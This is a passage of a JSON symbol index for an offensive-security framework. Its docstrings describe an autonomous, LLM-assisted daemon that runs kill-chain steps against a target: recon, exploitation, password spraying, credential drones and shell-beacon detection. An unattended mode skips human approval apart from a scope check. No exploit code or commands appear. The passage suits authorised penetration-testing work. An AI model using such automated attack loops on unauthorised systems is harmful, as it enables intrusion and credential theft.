cached campaign blacklist, reloading if the file changed.", "kind": "function", "line": 1595, "name": "_get_campaign_blacklist", "signature": "def _get_campaign_blacklist()"}, {"doc": "Compute multi-dimensional RL reward based on finding quality, novelty, and phase.\n\nArgs:\n    output:    Raw command output text.\n    command:   Command string that was executed.\n    phase:     Current engagement phase.\n    success:   Basic success flag from keyword detection.\n    findings:  Parsed ObsParser findings for this step.\n    prev_cmds: Command names from previous steps (for novelty penalty).\n\nReturns:\n    Reward scalar in the range [-2.0, 15.0].", "kind": "function", "line": 1605, "name": "_compute_step_reward", "signature": "def _compute_step_reward(output, command, phase, success, findings, prev_cmds)"}, {"doc": "Infer the target OS from ICMP TTL via a single ping probe.\n\nTTL heuristics (accounting for up to ~20 router hops consumed):\n  TTL <= 64   -> Linux / Unix / macOS (default initial TTL = 64)\n  TTL <= 128  -> Windows             (default initial TTL = 128)\n  TTL > 128   -> Unknown / network device\n\nReturns one of: 'linux', 'windows', 'unknown'.\nAn unreachable host returns 'unknown' — callers must treat unknown as a\nsignal to skip OS-specific tooling rather than defaulting to any platform.", "kind": "function", "line": 1678, "name": "_detect_target_os", "signature": "def _detect_target_os(target, loop)"}, {"doc": "Execute an objective autonomously: select commands, run them,\nparse output, update world model, and emit events.\nReturns the list of StepResult on completion.\n\nThe optional planner (modules/planner Planner, default built from\nthe objective's world model and parser) is the sole intent\ngenerator: each step serves one queued intent, and an empty refill\nwith unchanged facts ends the objective instead of repeating\nfallbacks.", "kind": "function", "line": 1725, "name": "_run_objective", "signature": "def _run_objective(objective_id, objective_text, target, max_steps, strategy, world_model, obs_parser, facts, loop, planner)"}, {"doc": "Watches ExecutionEngine results and launches hive drones when events\nworth parallel analysis are detected:\n  - New host discovered  -> recon drone\n  - Exploitable service  -> exploit drone\n  - Hash/credential      -> cred drone", "kind": "class", "line": 2764, "name": "DroneCoordinator", "signature": "class DroneCoordinator"}, {"doc": "Hash the world model file to detect change between wakes.", "kind": "function", "line": 2967, "name": "_world_fingerprint", "signature": "def _world_fingerprint()"}, {"doc": "Return the current kill-chain phase for bridge suggestions.", "kind": "function", "line": 2976, "name": "_current_bridge_phase", "signature": "def _current_bridge_phase()"}, {"doc": "Extract known service names for a target from the world file.", "kind": "function", "line": 2989, "name": "_target_services", "signature": "def _target_services(target)"}, {"doc": "Map a planner tactic onto an engage phase identifier.", "kind": "function", "line": 3008, "name": "_tactic_phase", "signature": "def _tactic_phase(tactic)"}, {"doc": "Return the intent ledger path, creating its directory.", "kind": "function", "line": 3013, "name": "_ledger_path", "signature": "def _ledger_path()"}, {"doc": "Append one intent lifecycle transition. Never raises.", "kind": "function", "line": 3023, "name": "_ledger_write", "signature": "def _ledger_write(engagement_id, intent_id, command, phase, state, reason)"}, {"doc": "Map a step result onto a terminal intent state and reason.", "kind": "function", "line": 3037, "name": "_settle_state", "signature": "def _settle_state(result)"}, {"doc": "One step in the EngageOrchestrator plan.\n\nAttributes:\n    phase: Canonical engagement phase tag (recon, enum, exploit, ...).\n    primary: Preferred LazyOwn shell command for this step.\n    label: Operator-facing short description used by the narrator.\n    timeout_s: Per-step execution timeout. Defaults to STEP_TIMEOUT_S.", "kind": "class", "line": 3050, "name": "EnginePhaseStep", "signature": "class EnginePhaseStep"}, {"doc": "Result of one EnginePhaseStep execution.", "kind": "class", "line": 3067, "name": "EnginePhaseResult", "signature": "class EnginePhaseResult"}, {"doc": "Contract for choosing a replacement tool after a failure.", "kind": "class", "line": 3084, "name": "IToolFallbackResolver", "signature": "class IToolFallbackResolver(ABC)"}, {"doc": "Resolver backed by the static :data:`_TOOL_FALLBACK_MAP`.\n\nUsed when the bridge catalog is unavailable (eg the lazyown_bridge\nmodule failed to import). Picks the i-th alternative for the given\nprimary command, returning None once the list is exhausted.", "kind": "class", "line": 3097, "name": "StaticFallbackResolver", "signature": "class StaticFallbackResolver(IToolFallbackResolver)"}, {"doc": "Resolver that asks the bridge catalog for phase-appropriate alternatives.\n\nFalls back to the static map when the bridge cannot answer, so the\norchestrator always converges instead of stalling. The internal\ncandidate cache is keyed by (phase, primary) so repeated failures\ndon't re-query the catalog.", "kind": "class", "line": 3118, "name": "BridgeFallbackResolver", "signature": "class BridgeFallbackResolver(IToolFallbackResolver)"}, {"doc": "Watches sessions/beacons.json for new beacons and emits SHELL_OBTAINED.\n\nIdempotent: only narrates each client_id once. The actual notification\nfabric (collab/telegram/discord) lives in engagement_hooks; this class\nis a thin watcher used by the orchestrator between phases. The lazyc2\nbeacon hook publishes immediately on registration so this watcher only\nmatters when beacons appear before EngageOrchestrator is the active\nprocess (e.g. during unattended sessions).", "kind": "class", "line": 3166, "name": "_ShellDetector", "signature": "class _ShellDetector"}, {"doc": "Single-target kill-chain orchestrator backing the ``engage`` verb.\n\nPublic usage:\n    orch = EngageOrchestrator(target=\"10.10.11.5\")\n    summary = orch.run()\n\nThe orchestrator never raises. Every error path is logged through the\nnarrator and reflected in the returned summary so the operator (or the\nMCP caller) sees the full timeline.", "kind": "class", "line": 3257, "name": "EngageOrchestrator", "signature": "class EngageOrchestrator"}, {"doc": "Generate a client-ready report at the end of an auto engagement.\n\nBest-effort: a report failure never fails the engagement, it only\ndowngrades the returned status. The report is a timestamped Markdown\nfile written to ``sessions/`` by ``modules.report_generator``.\n\nReturns:\n    ``{\"generated\": True, \"path\": \"...\"}`` on success or\n    ``{\"generated\": False, \"error\": \"...\"}`` when generation failed.", "kind": "function", "line": 3895, "name": "_maybe_generate_report", "signature": "def _maybe_generate_report()"}, {"doc": "Synchronous helper used by all engage entry points.\n\nArgs:\n    target: IPv4 dotted-quad or hostname to engage.\n    max_switches_per_step: Maximum number of fallback tools per phase.\n    auto: When True the engagement runs fully unattended. The\n        orchestrator is wired with a ``ScopeBoundAutoGate`` (approves\n        in-scope steps, denies out-of-scope steps under ``enforce``,\n        never prompts a human) and a client-ready report is generated\n        once the run completes.\n\nReturns:\n    The engagement summary from ``EngageOrchestrator.run()``. When auto\n    is True a ``report`` key is added with the report generation status.", "kind": "function", "line": 3921, "name": "_engage_run_sync", "signature": "def _engage_run_sync(target, max_switches_per_step, auto)"}, {"doc": "Public MCP / CLI entry point for the engage verb.\n\nArgs:\n    target: IPv4 dotted-quad or hostname to engage.\n    max_switches_per_step: Maximum number of fallback tools per phase.\n    detach: When True (default) the orchestrator runs in a background\n            thread and the call returns immediately with the engagement\n            id; the operator polls progress via lazyown_engage_status.\n            When False the call blocks until the kill-chain finishes\n            and returns the full summary JSON.\n    auto: When True the engagement runs fully unattended. Approval is\n            delegated to a ``ScopeBoundAutoGate`` that never prompts a\n            human: it approves in-scope steps, denies out-of-scope steps\n            when ``scope_enforcement`` is ``enforce`` (the single\n            fail-closed safety boundary), and a client-ready report is\n            generated when the run finishes.\n\nReturns:\n    JSON string with ``engagement_id`` and ``status`` (started|done)\n    plus the full result payload when detach is False.", "kind": "function", "line": 3964, "name": "mcp_engage_target", "signature": "def mcp_engage_target(target, max_switches_per_step, detach, auto)"}, {"doc": "Return the last N lines of sessions/engagement.log plus pending approvals.", "kind": "function", "line": 4054, "name": "mcp_engage_status", "signature": "def mcp_engage_status(last_n)"}, {"doc": "Resolve a pending approval. decision must be 'approved' or 'denied'.", "kind": "function", "line": 4080, "name": "mcp_engage_approve", "signature": "def mcp_engage_approve(approval_id, decision, operator)"}, {"doc": "List every pending approval awaiting an operator decision.", "kind": "function", "line": 4105, "name": "mcp_engage_list_pending", "signature": "def mcp_engage_list_pending()"}, {"doc": "CLI helper bound to the `engage <ip>` daemon subcommand.", "kind": "function", "line": 4123, "name": "cmd_engage", "signature": "def cmd_engage(target, max_switches_per_step, detach)"}, {"doc": "Persist current daemon stats to STATUS_FILE.", "kind": "function", "line": 4151, "name": "_write_status", "signature": "def _write_status()"}, {"doc": "Root autonomous loop: takes pending objectives from objectives.jsonl\nand executes them without waiting for Claude input between objectives.", "kind": "function", "line": 4162, "name": "objective_loop", "signature": "def objective_loop(max_steps, loop)"}, {"doc": "Watch world_model.json. When the phase changes, new hosts appear,\nnew service versions are found, or active beacons are detected,\nauto-inject derived objectives.", "kind": "function", "line": 4305, "name": "world_model_watcher", "signature": "def world_model_watcher(loop)"}, {"doc": "Emit heartbeat and write status every HEARTBEAT_S seconds.", "kind": "function", "line": 4490, "name": "heartbeat_loop", "signature": "def heartbeat_loop()"}, {"kind": "function", "line": 4538, "name": "_main_async", "signature": "def _main_async(max_steps)"}, {"kind": "function", "line": 4589, "name": "_write_pid", "signature": "def _write_pid()"}, {"kind": "function", "line": 4594, "name": "_clear_pid", "signature": "def _clear_pid()"}, {"kind": "function", "line": 4599, "name": "_read_pid", "signature": "def _read_pid()"}, {"kind": "function", "line": 4606, "name": "_is_running", "signature": "def _is_running()"}, {"doc": "Run daemon in foreground (debug mode).", "kind": "function", "line": 4617, "name": "cmd_run", "signature": "def cmd_run(max_steps)"}, {"doc": "Fork, detach, and run daemon in background.", "kind": "function", "line": 4626, "name": "cmd_start", "signature": "def cmd_start(max_steps)"}, {"doc": "Send SIGTERM to the running daemon.", "kind": "function", "line": 4656, "name": "cmd_stop", "signature": "def cmd_stop()"}, {"doc": "Print current daemon status to stdout.", "kind": "function", "line": 4673, "name": "cmd_status", "signature": "def cmd_status()"}, {"doc": "Inject an objective from the CLI, split into verifiable sub-goals.", "kind": "function", "line": 4689, "name": "cmd_inject", "signature": "def cmd_inject(text, priority)"}, {"doc": "Start the autonomous daemon in a background thread (for MCP calls).", "kind": "function", "line": 4723, "name": "mcp_autonomous_start", "signature": "def mcp_autonomous_start(max_steps, backend)"}, {"doc": "Stop the autonomous daemon.", "kind": "function", "line": 4765, "name": "mcp_autonomous_stop", "signature": "def mcp_autonomous_stop()"}, {"doc": "Current daemon state: objectives, steps, drones, phase.", "kind": "function", "line": 4781, "name": "mcp_autonomous_status", "signature": "def mcp_autonomous_status()"}, {"doc": "Inject an objective into the daemon queue and into sessions/tasks.json.", "kind": "function", "line": 4794, "name": "mcp_autonomous_inject", "signature": "def mcp_autonomous_inject(text, priority, target)"}, {"doc": "Read the last N events from autonomous_events.jsonl.", "kind": "function", "line": 4838, "name": "mcp_autonomous_events", "signature": "def mcp_autonomous_events(last_n)"}, {"doc": "Daemon-side pipeline subcommand handler.\n\nLazy-imports modules.pipeline_engine so the daemon starts even when\nPyYAML is missing in non-pipeline workflows.", "kind": "function", "line": 4869, "name": "_dispatch_pipeline", "signature": "def _dispatch_pipeline(args)"}, {"doc": "Execute command within timeout seconds. Return text output.", "kind": "method", "line": 385, "name": "run", "signature": "def run(self, command, timeout)"}, {"doc": "Human-readable identifier for this runner.", "kind": "method", "line": 390, "name": "name", "signature": "def name(self)"}, {"kind": "method", "line": 441, "name": "name", "signature": "def name(self)"}, {"doc": "Try to import and call the MCP runner. Raises ImportError on failure.", "kind": "method", "line": 444, "name": "run", "signature": "def run(self, command, timeout)"}, {"kind": "method", "line": 461, "name": "name", "signature": "def name(self)"}, {"doc": "Execute command via PTY. Returns cleaned text output.", "kind": "method", "line": 464, "name": "run", "signature": "def run(self, command, timeout)"}, {"kind": "method", "line": 551, "name": "__init__", "signature": "def __init__(self, runners)"}, {"kind": "method", "line": 557, "name": "name", "signature": "def name(self)"}, {"doc": "Try each runner in sequence. Return first successful output.", "kind": "method", "line": 560, "name": "run", "signature": "def run(self, command, timeout)"}, {"doc": "Return a CommandDecision or None if this selector has no suggestion.", "kind": "method", "line": 648, "name": "select", "signature": "def select(self, target, phase, context)"}, {"kind": "method", "line": 663, "name": "__init__", "signature": "def __init__(self, reactive_engine)"}, {"doc": "Feed reactive engine with last command output to generate new decisions.", "kind": "method", "line": 667, "name": "register_output", "signature": "def register_output(self, output, command, platform)"}, {"doc": "Pop and return the pending reactive decision if present.", "kind": "method", "line": 694, "name": "select", "signature": "def select(self, target, phase, context)"}, {"kind": "method", "line": 709, "name": "__init__", "signature": "def __init__(self, pdb, fail_counts)"}, {"doc": "Return the most-frequent successful command for this phase.", "kind": "method", "line": 713, "name": "select", "signature": "def select(self, target, phase, context)"}, {"kind": "method", "line": 726, "name": "_parquet_candidate", "signature": "def _parquet_candidate(self, category, target)"}, {"kind": "method", "line": 755, "name": "__init__", "signature": "def __init__(self, dispatcher, fail_counts)"}, {"doc": "Return a bridge catalog suggestion for this phase.", "kind": "method", "line": 759, "name": "select", "signature": "def select(self, target, phase, context)"}, {"kind": "method", "line": 770, "name": "_bridge_candidate", "signature": "def _bridge_candidate(self, phase, services, tag, os_hint)"}, {"doc": "Return an LLM-suggested command with catalog context, or None if disabled.", "kind": "method", "line": 825, "name": "select", "signature": "def select(self, target, phase, context)"}, {"kind": "method", "line": 831, "name": "_llm_candidate", "signature": "def _llm_candidate(self, target, phase, context)"}, {"doc": "Ask the best MoE expert for a command recommendation. Returns None if disabled.", "kind": "method", "line": 947, "name": "select", "signature": "def select(self, target, phase, context)"}, {"kind": "method", "line": 953, "name": "_swan_candidate", "signature": "def _swan_candidate(self, target, phase, context)"}, {"doc": "Return the static fallback command for this phase. Never returns None.", "kind": "method", "line": 993, "name": "select", "signature": "def select(self, target, phase, context)"}, {"doc": "Initialise the decorator.\n\nArgs:\n    wrapped: The selector whose decisions may be filtered.\n    metrics_source: Object exposing ``summarize(window_seconds)``.\n        Defaults to :func:`modules.metrics.get_recorder` resolved\n        lazily on first use so the module remains importable\n        without the metrics package present.\n    min_success_rate: Inclusive lower bound on ``success_rate``;\n        values strictly below this are considered failing.\n    min_attempts: Minimum number of recorded attempts before a\n        command can be filtered. Avoids over-reacting to a\n        single failure.\n    window_seconds: Aggregation window forwarded to\n        ``summarize``. Set to ``0`` or a negative value to\n        aggregate the whole log.\n    cache_ttl_s: Time-to-live for the in-memory summary cache.\n        Repeated calls within the TTL reuse the cached\n        aggregate to avoid re-reading the JSONL log every\n        step.\n    clock: Callable returning the current monotonic time.\n        Injected in tests; defaults to :func:`time.monotonic`.", "kind": "method", "line": 1030, "name": "__init__", "signature": "def __init__(self, wrapped, metrics_source, min_success_rate, min_attempts, window_seconds, cache_ttl_s, clock)"}, {"doc": "Return the underlying selector for introspection in tests.", "kind": "method", "line": 1076, "name": "wrapped", "signature": "def wrapped(self)"}, {"doc": "Return the metrics source, resolving the singleton on first use.\n\nReturns:\n    The configured metrics source, or ``None`` when the metrics\n    module cannot be imported (the decorator then degrades to a\n    transparent pass-through).", "kind": "method", "line": 1081, "name": "_resolve_source", "signature": "def _resolve_source(self)"}, {"doc": "Return a fresh or cached summary dictionary.\n\nReturns:\n    The ``by_command`` section of the summary, or an empty dict\n    when no metrics source is available.", "kind": "method", "line": 1108, "name": "_current_summary", "signature": "def _current_summary(self)"}, {"doc": "Decide whether *command* should be filtered out.\n\nArgs:\n    command: First token of the proposed command.\n\nReturns:\n    ``(skip, stats)`` — ``skip`` is ``True`` when the command\n    should be filtered; ``stats`` carries the underlying\n    count and success rate when available, for telemetry.", "kind": "method", "line": 1138, "name": "_should_skip", "signature": "def _should_skip(self, command)"}, {"doc": "Honour the :class:`ICommandSelector` contract.\n\nDelegates to the wrapped selector. When the proposed command\nfails the success-rate gate, returns ``None`` and emits a\n``METRICS_BIAS_SKIP`` event so the rejection is auditable.", "kind": "method", "line": 1162, "name": "select", "signature": "def select(self, target, phase, context)"}, {"kind": "method", "line": 1263, "name": "__init__", "signature": "def __init__(self, fail_counts)"}, {"doc": "Return a spray command when credentials + matching service are available.", "kind": "method", "line": 1267, "name": "select", "signature": "def select(self, target, phase, context)"}, {"kind": "method", "line": 1303, "name": "__init__", "signature": "def __init__(self, selectors)"}, {"doc": "Try each selector in order. The FallbackSelector ensures a result.", "kind": "method", "line": 1306, "name": "next_command", "signature": "def next_command(self, target, phase, context)"}, {"kind": "method", "line": 1341, "name": "__init__", "signature": "def __init__(self, runner, selectors)"}, {"doc": "Feed the reactive selector with the last command output.", "kind": "method", "line": 1368, "name": "register_output", "signature": "def register_output(self, output, command, platform, success)"}, {"doc": "Select the next command for target/phase using the cascade.", "kind": "method", "line": 1382, "name": "next_command", "signature": "def next_command(self, target, phase, services, os_hint)"}, {"doc": "Execute objective and return a list of step results.", "kind": "method", "line": 1416, "name": "handle", "signature": "def handle(self, objective_id, objective_text, target, context)"}, {"kind": "method", "line": 1438, "name": "__init__", "signature": "def __init__(self, strategy, max_steps, world_model, obs_parser, facts, loop)"}, {"doc": "Synchronous entry point. Delegates to _run_sync.", "kind": "method", "line": 1454, "name": "handle", "signature": "def handle(self, objective_id, objective_text, target, context)"}, {"doc": "Asyncio entry point used by objective_loop.", "kind": "method", "line": 1464, "name": "run_async", "signature": "def run_async(self, objective_id, objective_text, target)"}, {"doc": "Run the async coroutine synchronously (for testing / non-async callers).", "kind": "method", "line": 1484, "name": "_run_sync", "signature": "def _run_sync(self, objective_id, objective_text, target)"}, {"kind": "method", "line": 2773, "name": "__init__", "signature": "def __init__(self)"}, {"doc": "Launch drones for relevant findings. Returns list of drone_ids.", "kind": "method", "line": 2778, "name": "process_findings", "signature": "def process_findings(self, findings, target, objective_id, payload_key)"}, {"doc": "True when the orchestrator used a fallback tool.", "kind": "method", "line": 3079, "name": "did_switch", "signature": "def did_switch(self)"}, {"doc": "Return the next candidate command or None when exhausted.", "kind": "method", "line": 3088, "name": "next_tool", "signature": "def next_tool(self, failed_command, phase, attempt)"}, {"kind": "method", "line": 3105, "name": "next_tool", "signature": "def next_tool(self, failed_command, phase, attempt)"}, {"kind": "method", "line": 3127, "name": "__init__", "signature": "def __init__(self, dispatcher)"}, {"kind": "method", "line": 3132, "name": "_candidates", "signature": "def _candidates(self, primary, phase)"}, {"kind": "method", "line": 3152, "name": "next_tool", "signature": "def next_tool(self, failed_command, phase, attempt)"}, {"kind": "method", "line": 3179, "name": "__init__", "signature": "def __init__(self, narrator)"}, {"doc": "Return the newly-detected client_ids since the previous poll.", "kind": "method", "line": 3184, "name": "poll", "signature": "def poll(self, target)"}, {"doc": "Return True when a shell/root-shell signal appears in command output.", "kind": "method", "line": 3225, "name": "detect_in_output", "signature": "def detect_in_output(self, output, target)"}, {"kind": "method", "line": 3271, "name": "__init__", "signature": "def __init__(self, target, runner, narrator, approval_gate, fallback_resolver, shell_detector, plan, max_switches_per_step, safety_guard)"}, {"doc": "Stable id for this engagement (correlates events in logs).", "kind": "method", "line": 3316, "name": "engagement_id", "signature": "def engagement_id(self)"}, {"doc": "Drive the full plan against the configured target.\n\nReturns a summary dict with the engagement_id, target, per-step\nresults, switch counts, and the final shell-obtained flag.", "kind": "method", "line": 3320, "name": "run", "signature": "def run(self)"}, {"doc": "Execute planner-driven extra intents when the world changed.\n\nThis is the event-driven wake: the fixed plan is one round, and a\nchanged world wakes the planner for 0..N fresh intents mapped to\nLazyOwn verbs through the bridge catalog (MITRE-aligned). An\nunchanged world or an empty refill narrates NO_NEW_DIRECTION and\nadds nothing. Returns True when a shell was obtained.", "kind": "method", "line": 3479, "name": "_run_planner_intents", "signature": "def _run_planner_intents(self, results, fp_before, max_intents, planner)"}, {"doc": "Suggest one bridge command without a MITRE hint.\n\nUsed only when the planner emits zero intents on a changed\nworld: the engagement must still push forward. Returns None\nwhen the catalog has nothing new.", "kind": "method", "line": 3598, "name": "_planner_fallback_verb", "signature": "def _planner_fallback_verb(self, tried)"}, {"doc": "Execute one phase step with approval, fallback, and narration.", "kind": "method", "line": 3622, "name": "_run_step", "signature": "def _run_step(self, step)"}, {"doc": "Ask the ApprovalGate; return None if no gate is wired.", "kind": "method", "line": 3842, "name": "_consult_gate", "signature": "def _consult_gate(self, step)"}, {"doc": "Run command via the shell, injecting target into payload first.", "kind": "method", "line": 3857, "name": "_execute", "signature": "def _execute(self, command, timeout_s)"}, {"doc": "Heuristic success check — failure markers win (LAZY-style).", "kind": "method", "line": 3863, "name": "_step_succeeded", "signature": "def _step_succeeded(command, output)"}, {"kind": "function", "line": 4018, "name": "_worker", "signature": "def _worker()"}, {"kind": "function", "line": 4737, "name": "_run", "signature": "def _run()"}, {"kind": "function", "line": 885, "name": "_ask_via", "signature": "def _ask_via(_backend, _goal, _key)"}]}, {"doc": "Deterministic replay of past autonomous-daemon runs.  The autonomous daemon (``skills/autonomous_daemon.py``) emits structured events to ``sessions/autonomous_events.jsonl``. This module reads that log back and reproduces the recorded decision sequence in two flavours:  * ``trace`` — pure analysis, no command is re-executed. The recorded decisions are validated against the deterministic ``decision_seed`` stored with each ``STEP_START`` event, surfacing any divergence (for example a selector chain that was edited between the original run and the replay attempt). * ``execute`` — same sequence, but each recorded command is rerun through the existing :class:`ICommandRunner` chain so the operator can compare current output against the recorded snippet. The runner chain is **the same** the live daemon uses, so the harness layers (permissions, hooks) still apply.  Replay never bypasses the operator approval flow; it stops at the same checkpoints the live daemon would.", "id": "skills/autonomous_replay.py", "kind": "module", "label": "autonomous_replay.py", "language": "py", "sha256": "e6334bbc51b1f378", "symbol_count": 19, "symbols": [{"doc": "One reproduced decision in a replay run.\n\nAttributes:\n    event_id: ``id`` of the source ``STEP_START`` event.\n    step: Step counter inside the parent objective.\n    objective_id: Identifier of the parent objective.\n    command: Command that was recorded.\n    source: Name of the selector that produced the decision.\n    reason: Free-form rationale recorded by the daemon.\n    recorded_decision_seed: Decision seed stored at recording time.\n    replayed_success: ``None`` in trace mode, ``True``/``False``\n        once :meth:`ReplayDispatcher.execute` has run the command.\n    replayed_output_snippet: Trimmed output from the replayed run,\n        ``None`` in trace mode.", "kind": "class", "line": 53, "name": "ReplayStep", "signature": "class ReplayStep"}, {"doc": "Marker emitted when a replayed step does not match the recording.", "kind": "class", "line": 82, "name": "ReplayDivergence", "signature": "class ReplayDivergence"}, {"doc": "Final outcome of a :class:`ReplayDispatcher` call.\n\nAttributes:\n    mode: ``\"trace\"`` or ``\"execute\"``.\n    events_seen: Total ``STEP_START`` events considered, before any\n        filtering.\n    from_event_id: Inclusive lower bound used during the run.\n    to_event_id: Inclusive upper bound used during the run.\n    steps: Reproduced steps, in chronological order.\n    divergences: Detected divergences (empty when the recording is\n        consistent).", "kind": "class", "line": 93, "name": "ReplayReport", "signature": "class ReplayReport"}, {"doc": "Parse ``autonomous_events.jsonl`` into in-memory events.\n\nMalformed lines are skipped with a debug log entry so a single\ntruncated line never blocks an entire replay. The reader does not\nperform any filtering on its own; slicing by event id lives in\n:class:`ReplayDispatcher`.", "kind": "class", "line": 127, "name": "EventLogReader", "signature": "class EventLogReader"}, {"doc": "Drive a replay run over a parsed event log.\n\nDepends on a :class:`EventLogReader` for input and (in execute\nmode) on a runner exposing a ``run(command, timeout) -> str``\ninterface compatible with\n:class:`skills.autonomous_daemon.ICommandRunner`.", "kind": "class", "line": 212, "name": "ReplayDispatcher", "signature": "class ReplayDispatcher"}, {"doc": "Convenience entry point used by the MCP tool layer.\n\nArgs:\n    from_event_id: Inclusive lower bound on event id.\n    to_event_id: Inclusive upper bound on event id.\n    mode: ``\"trace\"`` (default) or ``\"execute\"``.\n    events_path: Override for the JSONL source file. Defaults to\n        :data:`DEFAULT_EVENTS_FILE`.\n    runner: Optional runner injection used only in ``\"execute\"`` mode.\n    timeout: Per-command timeout in seconds, ``\"execute\"`` mode only.\n\nReturns:\n    Serialised :class:`ReplayReport` dictionary.\n\nRaises:\n    ValueError: If *mode* is not one of :data:`SUPPORTED_REPLAY_MODES`.", "kind": "function", "line": 473, "name": "replay", "signature": "def replay(from_event_id, to_event_id, mode, events_path, runner, timeout)"}, {"doc": "Return the report as a JSON-serialisable dictionary.", "kind": "method", "line": 114, "name": "to_dict", "signature": "def to_dict(self)"}, {"doc": "Initialise the reader.\n\nArgs:\n    path: Source JSONL file. Defaults to\n        :data:`DEFAULT_EVENTS_FILE`.", "kind": "method", "line": 136, "name": "__init__", "signature": "def __init__(self, path)"}, {"doc": "Return the source path.", "kind": "method", "line": 147, "name": "path", "signature": "def path(self)"}, {"doc": "Return every event in the log, oldest first.\n\nReturns:\n    A list of decoded events. Empty when the file does not\n    exist or cannot be read.", "kind": "method", "line": 152, "name": "read", "signature": "def read(self)"}, {"doc": "Return the inclusive subrange of *events* by ``id``.\n\nArgs:\n    events: Source list as returned by :meth:`read`.\n    from_event_id: Inclusive lower bound. ``None`` keeps the\n        beginning of the log.\n    to_event_id: Inclusive upper bound. ``None`` keeps the end\n        of the log.\n\nReturns:\n    A subrange of *events*. When both bounds are ``None`` the\n    input list is returned unchanged.", "kind": "method", "line": 177, "name": "slice", "signature": "def slice(self, events, from_event_id, to_event_id)"}, {"doc": "Initialise the dispatcher.\n\nArgs:\n    reader: Source reader. Defaults to a fresh\n        :class:`EventLogReader` against\n        :data:`DEFAULT_EVENTS_FILE`.\n    seed_fn: Decision-seed function. Defaults to\n        :func:`autonomous_daemon.compute_decision_seed`. Injected\n        in tests.", "kind": "method", "line": 221, "name": "__init__", "signature": "def __init__(self, reader, seed_fn)"}, {"doc": "Resolve the canonical decision-seed implementation.\n\nReturns:\n    The :func:`compute_decision_seed` from\n    :mod:`skills.autonomous_daemon`. A no-op function is\n    returned when the module cannot be imported (for example\n    in stand-alone unit tests of this module).", "kind": "method", "line": 241, "name": "_default_seed_fn", "signature": "def _default_seed_fn()"}, {"doc": "Return ``(events_seen, step_events_in_range)``.\n\nArgs:\n    from_event_id: Inclusive lower bound by event id.\n    to_event_id: Inclusive upper bound by event id.", "kind": "method", "line": 261, "name": "_collect_step_events", "signature": "def _collect_step_events(self, from_event_id, to_event_id)"}, {"doc": "Convert a ``STEP_START`` event into a :class:`ReplayStep`.\n\nArgs:\n    event: Raw event dictionary.\n    divergences: Mutable accumulator for divergence markers.\n\nReturns:\n    A populated :class:`ReplayStep`, or ``None`` when the event\n    payload is missing required fields.", "kind": "method", "line": 278, "name": "_build_step", "signature": "def _build_step(self, event, divergences)"}, {"doc": "Replay the recorded decision sequence without executing it.\n\nArgs:\n    from_event_id: Inclusive lower bound on event id.\n    to_event_id: Inclusive upper bound on event id.\n\nReturns:\n    A :class:`ReplayReport` populated with one step per\n    ``STEP_START`` event in the requested range.", "kind": "method", "line": 325, "name": "trace", "signature": "def trace(self, from_event_id, to_event_id)"}, {"doc": "Replay the recorded sequence and re-run each command.\n\nArgs:\n    from_event_id: Inclusive lower bound on event id.\n    to_event_id: Inclusive upper bound on event id.\n    runner: Runner exposing ``run(command, timeout) -> str``.\n        Defaults to the same chain\n        :class:`skills.autonomous_daemon.CommandRunnerChain`\n        uses live, so the harness layers (permissions, hooks)\n        still apply.\n    timeout: Per-command timeout in seconds.\n\nReturns:\n    A :class:`ReplayReport` whose steps carry the freshly\n    captured output snippets and a recomputed success flag.", "kind": "method", "line": 357, "name": "execute", "signature": "def execute(self, from_event_id, to_event_id, runner, timeout)"}, {"doc": "Build the same runner chain the live daemon uses.\n\nReturns:\n    A :class:`CommandRunnerChain` composed of the MCP and PTY\n    runners, falling back to a stub that raises when the daemon\n    module is not importable.\n\nRaises:\n    ImportError: If the daemon module is not importable in the\n        current environment and no runner was injected.", "kind": "method", "line": 413, "name": "_default_runner", "signature": "def _default_runner()"}, {"doc": "Run *command* through *runner* and report success heuristically.\n\nArgs:\n    runner: Object exposing ``run(command, timeout) -> str``.\n    command: Command line to execute.\n    timeout: Timeout in seconds.\n\nReturns:\n    ``(output_text, success_bool)``.", "kind": "method", "line": 441, "name": "_invoke_runner", "signature": "def _invoke_runner(runner, command, timeout)"}]}, {"doc": "Public API for the claude_md_orchestrator skill.  The package re-exports the classes and the helper functions the CLI and the tests share. The orchestrator module owns the public entry point. The agents stay private to the package so callers depend on the orchestrator instead of the implementation detail.", "id": "skills/claude_md_orchestrator/__init__.py", "kind": "module", "label": "__init__.py", "language": "py", "sha256": "e27976b5b47c7e4a", "symbol_count": 0, "symbols": []}, {"doc": "Behavior-Driven Development agent.  The agent reads the spec and the failing tests the tdd agent produced. The agent writes the implementation that satisfies the tests. The cycle halts at green. The agent will not advance to the next stage until pytest reports pass for every test the tdd agent wrote.  The implementation is a single self contained module per contract. The module exposes a ``run`` function that returns the string ``ok`` on the happy path and a ``handle_sad_NN`` function per sad path that returns the string ``handled``. The shape mirrors what the tdd agent imports so the two agents never disagree.", "id": "skills/claude_md_orchestrator/bdd_agent.py", "kind": "module", "label": "bdd_agent.py", "language": "py", "sha256": "5f25f5948c47e000", "symbol_count": 8, "symbols": [{"doc": "Return the python module name the implementation will use.", "kind": "function", "line": 80, "name": "_module_name", "signature": "def _module_name(contract)"}, {"doc": "Return the absolute path of the implementation module.", "kind": "function", "line": 85, "name": "_module_path", "signature": "def _module_path(contract, config)"}, {"doc": "Return the absolute path of the implementation package init file.", "kind": "function", "line": 90, "name": "_package_init", "signature": "def _package_init(config)"}, {"doc": "Render the python source of the implementation module.", "kind": "function", "line": 95, "name": "_compose_implementation", "signature": "def _compose_implementation(spec, contract)"}, {"doc": "Outcome of running the implementation agent.\n\nAttributes:\n    source_path: Absolute path of the implementation module the\n        agent wrote.\n    findings: DoD findings the agent collected.\n    green: True when pytest reported pass for every new test.\n    duration_seconds: Wall clock duration of the pytest run.", "kind": "class", "line": 113, "name": "BddResult", "signature": "class BddResult"}, {"doc": "Write the package init file the tests import from.", "kind": "function", "line": 130, "name": "_ensure_init", "signature": "def _ensure_init(config)"}, {"doc": "Run pytest and return the exit code plus the duration.", "kind": "function", "line": 138, "name": "_run_pytest", "signature": "def _run_pytest(test_path, cwd)"}, {"doc": "Run the implementation agent for one contract.\n\nArgs:\n    contract: The contract the spec implements.\n    spec: The spec the implementation satisfies.\n    suite: The TestSuite the tdd agent produced.\n    config: Active runtime configuration.\nReturns:\n    The result the orchestrator persists. The green flag is True\n    when pytest reported pass for every new test. The orchestrator\n    advances only when green is True.", "kind": "function", "line": 151, "name": "run", "signature": "def run(contract, spec, suite, config)"}]}, {"doc": "Boy Scout refactor pass.  The pass runs after the green stage. The pass scans the artifacts the 